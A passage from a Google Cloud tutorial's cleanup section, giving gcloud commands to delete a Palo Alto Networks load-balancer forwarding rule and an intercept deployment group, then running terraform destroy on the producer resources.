        --location $ZONE \
        --no-async
    
    gcloud compute forwarding-rules delete panw-lb-rule-$ZONE \
        --project $PRODUCER_PROJECT \
        --region $REGION \
        --quiet

    gcloud network-security intercept-deployment-groups delete panw-dg \
        --location global \
        --project $PRODUCER_PROJECT \
        --no-async
    ```

3. Run `terraform destroy` from the `/producer` directory.

    ```
    cd
    cd google-cloud-nsi-tutorial/producer
    terraform destroy
    ```

4. Enter `yes` to delete all producer resources.
